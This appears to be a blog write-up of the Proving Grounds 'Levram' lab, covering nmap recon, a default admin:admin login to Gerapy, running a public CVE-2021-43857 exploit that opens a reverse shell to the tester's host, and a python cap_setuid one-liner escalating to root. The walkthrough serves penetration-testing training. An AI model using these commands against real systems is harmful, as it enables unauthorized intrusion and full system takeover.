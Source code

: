 ```yaml
---
date: '2024-09-04'
before : '2024-09-01'
after : '2024-09-06'
title: 'Proving Grounds : Levram'
categories: [ 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving GLPI machine from Proving Grounds'
thumbnail: '../contentImages/levram/levram-1.png'
---
```

## 0. Machine Info

Levram is an easy machine from Proving Grounds, and this one is pretty straight forward.

## 1. Recon
- nmap

```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p-       
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:13 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```


- port 22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   28.77 ms 192.168.45.1
2   28.51 ms 192.168.45.254
3   37.19 ms 192.168.251.1
4   37.45 ms 192.168.211.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```


- port 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p8000 -A -sC -sV -Pn
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:21 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).

PORT     STATE SERVICE  VERSION
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

There is nothing special or common cve with versions above or any interesting interactions. Let's start with webapp enumeration.

## 2. Initial Foothold

I tried a basic admin:admin, and I got in (...)

![levram-1](../contentImages/levram/levram-1.png)

Then, the footer revealed that they have Gerapy 0.9.6 running behind the webapp. Since Subdirectory enumeration didn't work well, I started to search CVE for Gerapy


Quick search for CVE:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit gerapy          
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                                    | python/remote/50640.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That's exactly what we need!


For this exploit, we need more than one project. But as we can see from the first image, we have no projects right now, so I simply created a project.

![levram-2](../contentImages/levram/levram-2.png)

Then I executed the script, got my shell.

```
┌──(hosan㉿kali)-[~/pg/levram]
└─$ python3 50640.py -t 192.168.211.24 -p 8000 -L 192.168.45.230 -P 443
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
{'Authorization': 'Token b58db15bafeac901558a5da07b2b894f1f2b7111'}
[*] Getting the project list
[{"name": "exploit"}]
[{"name": "exploit"}]
[*] Found project: exploit
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 443 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.45.230] from (UNKNOWN) [192.168.211.24] 55734
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ 

```

## 3. PrivEsc to root

I executed linpeash.sh, but there were too many potential risks.


What I tried:

- sudo -l
- kernel exploit
- suid/sgid binary


Nothing worked. But at last, I found that python3 (as binary) has following (linux-) capability!:
```
Files with capabilities (limited to 50):
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/snap/core20/2318/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep !this one
```

What is capability then?


> Capabilities are useful when you want to restrict your own processes after performing privileged operations (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious commands or arguments which are then run as root.

For example, if there is setuid capability bit for a binary allowed, the binary is allowed to change the setuid of it's process if it is being executed, since cap_setuid=ep is enabled for python3.10!


It means, we can use import os; os.setuid(0) by executing python from command shell!

```
app@ubuntu:~/gerapy$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
< -c 'import os;os.setuid(0);os.system("/bin/bash")'
whoami
root
cat /root/proof.txt
96809490798d8d9d8779af42f6fb0f24
```

I got root. That's pretty much it.

## 4. Review

Easy enough, fair enough.


It covered all basic stuffs though (with privesc enumeration)

---
## 5. Source

- Proving Grounds
- Me!
